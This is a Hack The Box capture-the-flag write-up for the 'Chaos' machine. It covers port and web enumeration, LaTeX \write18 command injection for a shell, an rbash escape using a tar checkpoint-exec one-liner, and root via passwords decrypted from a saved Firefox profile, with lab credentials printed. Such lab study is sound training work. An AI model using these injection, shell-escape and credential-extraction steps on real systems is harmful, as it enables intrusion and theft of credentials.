




# Chaos
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.120                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 17:06 BST
Stats: 0:11:43 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 60.89% done; ETC: 17:25 (0:07:32 remaining)
Nmap scan report for 10.10.10.120 (10.10.10.120)
Host is up (0.28s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
80/tcp    open     http
110/tcp   open     pop3
143/tcp   open     imap
993/tcp   open     imaps
995/tcp   open     pop3s
10000/tcp open     snet-sensor-mgmt
63322/tcp filtered unknown
```
```
└─$ nmap -Pn -p80,110,143,993,995,10000 -sC -sV 10.10.10.120
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 14:38 GMT
Nmap scan report for 10.10.10.120 (10.10.10.120)
Host is up (0.30s latency).

PORT      STATE SERVICE  VERSION
80/tcp    open  http     Apache httpd 2.4.34 ((Ubuntu))
|_http-server-header: Apache/2.4.34 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp   open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_pop3-capabilities: TOP SASL UIDL CAPA AUTH-RESP-CODE PIPELINING STLS RESP-CODES
143/tcp   open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: ENABLE capabilities SASL-IR IDLE STARTTLS listed LITERAL+ ID post-login IMAP4rev1 more Pre-login LOGIN-REFERRALS OK LOGINDISABLEDA0001 have
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: ENABLE SASL-IR IDLE post-login listed LITERAL+ ID AUTH=PLAINA0001 IMAP4rev1 more capabilities LOGIN-REFERRALS Pre-login OK have
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
995/tcp   open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: TOP SASL(PLAIN) UIDL CAPA USER PIPELINING AUTH-RESP-CODE RESP-CODES
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
10000/tcp open  http     MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.86 seconds

```

- Web server


- Port `10000`


- `gobuster`
```
└─$ gobuster dir -u http://chaos.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://chaos.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 288]
/.html                (Status: 403) [Size: 289]
/index.html           (Status: 200) [Size: 6964]
/contact.html         (Status: 200) [Size: 4615]
/about.html           (Status: 200) [Size: 5532]
/blog.html            (Status: 200) [Size: 46]
/img                  (Status: 301) [Size: 304] [--> http://chaos.htb/img/]
/css                  (Status: 301) [Size: 304] [--> http://chaos.htb/css/]
/source               (Status: 301) [Size: 307] [--> http://chaos.htb/source/]
/js                   (Status: 301) [Size: 303] [--> http://chaos.htb/js/]
/javascript           (Status: 301) [Size: 311] [--> http://chaos.htb/javascript/]

```
```
└─$ gobuster dir -u http://10.10.10.120/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.120/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 73]
/.html                (Status: 403) [Size: 292]
/.php                 (Status: 403) [Size: 291]
/wp                   (Status: 301) [Size: 309] [--> http://10.10.10.120/wp/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.120/javascript/]

```

- `Wordpress`
```
└─$ wpscan --url http://10.10.10.120/wp/wordpress/ -e u,p                                       
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
[+] URL: http://10.10.10.120/wp/wordpress/ [10.10.10.120]
[+] Started: Sun Oct 29 15:16:25 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.34 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.120/wp/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.10.120/wp/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.120/wp/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.8 identified (Insecure, released on 2018-08-02).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.10.120/wp/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=4.9.8</generator>
 |  - http://10.10.10.120/wp/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.9.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://10.10.10.120/wp/wordpress/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://10.10.10.120/wp/wordpress/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://10.10.10.120/wp/wordpress/wp-content/themes/twentyseventeen/style.css?ver=4.9.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.10.120/wp/wordpress/wp-content/themes/twentyseventeen/style.css?ver=4.9.8, Match: 'Version: 1.7'

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:04 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:04

[i] User(s) Identified:

[+] human
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.120/wp/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Oct 29 15:16:45 2023
[+] Requests Done: 55
[+] Cached Requests: 7
[+] Data Sent: 15.173 KB
[+] Data Received: 460.928 KB
[+] Memory used: 245.84 MB
[+] Elapsed time: 00:00:20

```

- `vhosts`
```
└─$ wfuzz -u http://10.10.10.120/ -H 'Host: FUZZ.chaos.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hh 73
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.120/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000005:   200        120 L    386 W      5607 Ch     "webmail"                                                                                                                                                                  
000009532:   400        12 L     53 W       442 Ch      "#www"                                                                                                                                                                     
000010581:   400        12 L     53 W       442 Ch      "#mail"                                                                                                                                                                    

Total time: 523.4830
Processed Requests: 19966
Filtered Requests: 19963
Requests/sec.: 38.14068
```

- `webmail.chaos.htb`


## Foothold
- We can see a post on wordpress named `chaos` created by `human` user
  - It's password protected
  - `human` as password works to open in
  - We have creds for `webmail`
    - `ayush:jiujitsu`




- Now we can login to `webmail.chaos.htb`
  - But inbox is empty



- Yet, we have a message in `drafts`


- It contains a message and a script which was used to encrypt the message
  - The same information could be retrieved via `imap`/`evolution`
  - https://www.atmail.com/blog/imap-commands/
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap#evolution
- `en.py`
```
└─$ cat en.py    
def encrypt(key, filename):
    chunksize = 64*1024
    outputFile = "en" + filename
    filesize = str(os.path.getsize(filename)).zfill(16)
    IV =Random.new().read(16)

    encryptor = AES.new(key, AES.MODE_CBC, IV)

    with open(filename, 'rb') as infile:
        with open(outputFile, 'wb') as outfile:
            outfile.write(filesize.encode('utf-8'))
            outfile.write(IV)

            while True:
                chunk = infile.read(chunksize)

                if len(chunk) == 0:
                    break
                elif len(chunk) % 16 != 0:
                    chunk += b' ' * (16 - (len(chunk) % 16))

                outfile.write(encryptor.encrypt(chunk))

def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()
```

- The password is `sahay`, since the message said `You are the password XD`
  - I'll create a script which reverses the `encrypt` function
```
└─$ cat dec.py      
import os
from Crypto import Random
from Crypto.Cipher import AES
from Crypto.Hash import SHA256

def decrypt(key, filename):
        chunksize = 64*1024

        with open(filename, 'rb') as infile:
                filesize = int(infile.read(16))
                IV = infile.read(16)
                decryptor = AES.new(key, AES.MODE_CBC, IV)
                chunk = infile.read(chunksize)

                if len(chunk) > 0:
                        print(decryptor.decrypt(chunk))

def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()

decrypt(getKey("sahay"), "enim_msg.txt")
```

- Run it
```
└─$ python3 dec.py
b'SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK\n\n      '
```
```
└─$ echo "SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK" | base64 -d
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```

- `http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3`


- If we test a request, we see it's a `LaTex`
  - The template `test1` fails, but `test2` and `test3` are successful


- We can try to perform `rce`
  - https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection#command-execution
  - We saw a message `This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex) \write18 enabled.`
  - We can try `\immediate\write18{<CMD>}`



- Let's get a reverse shell
  - Don't forget to url-encode




## User
- We can `su` as `ayush`, since we have creds
```
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ su - ayush
Password: 
ayush@chaos:~$ 
```

- But it looks like we are inside `rbash`
```
ayush@chaos:~$ ls
Command 'ls' is available in '/bin/ls'
The command could not be located because '/bin' is not included in the PATH environment variable.
ls: command not found
ayush@chaos:~$ 
```
```
ayush@chaos:~$ echo $SHELL
/opt/rbash
ayush@chaos:~$ echo $PATH
/home/ayush/.app
ayush@chaos:~$ env
Command 'env' is available in '/usr/bin/env'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
env: command not found
ayush@chaos:~$ export
declare -x HOME="/home/ayush"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="ayush"
declare -x MAIL="/var/mail/ayush"
declare -x OLDPWD
declare -x PATH="/home/ayush/.app"
declare -x PWD="/home/ayush"
declare -x SHELL="/opt/rbash"
declare -x SHLVL="1"
declare -x TERM="xterm"
declare -x USER="ayush"
declare -x XDG_RUNTIME_DIR="/run/user/1001"
declare -x XDG_SESSION_ID="c1"
ayush@chaos:~$ 
```

- The list of commands we can run
  - `cd` is blocked, I tried `dir`
```
ayush@chaos:~$ dir /home/ayush/.app/
dir   ping  tar 
```

- We can escape using [GTFOBins](https://gtfobins.github.io/gtfobins/tar/)
```
ayush@chaos:~$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
bash: groups: command not found
ayush@chaos:~$ whoami
Command 'whoami' is available in '/usr/bin/whoami'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
whoami: command not found
ayush@chaos:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ayush@chaos:~$ ls
mail  user.txt
ayush@chaos:~$ 
```
## Root
- I notice `.mozilla` directory in `ayush`'s home directory
```
ayush@chaos:~$ ls -lha
total 40K
drwx------ 6 ayush ayush 4.0K Oct 29 16:41 .
drwxr-xr-x 4 root  root  4.0K Jun 30  2022 ..
drwxr-xr-x 2 root  root  4.0K Jun 30  2022 .app
lrwxrwxrwx 1 root  root     9 Jul 12  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4.0K Oct 29 16:41 .gnupg
drwx------ 3 ayush ayush 4.0K Oct 29 16:18 mail
drwx------ 4 ayush ayush 4.0K Jun 30  2022 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Oct 29 14:28 user.txt

```

- We have a profile
```
ayush@chaos:~/.mozilla/firefox$ ls
 bzo7sjt1.default  'Crash Reports'   profiles.ini
```

- Let's extract data
  - I had to download version `0.7.0` of the [firefox_decrypt](https://github.com/unode/firefox_decrypt/tags)
```
ayush@chaos:~$ python3 firefox_decrypt.py 

Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'

```

- And we can grab our `root` flag
```
ayush@chaos:~$ su -
Password: 
root@chaos:~#
```
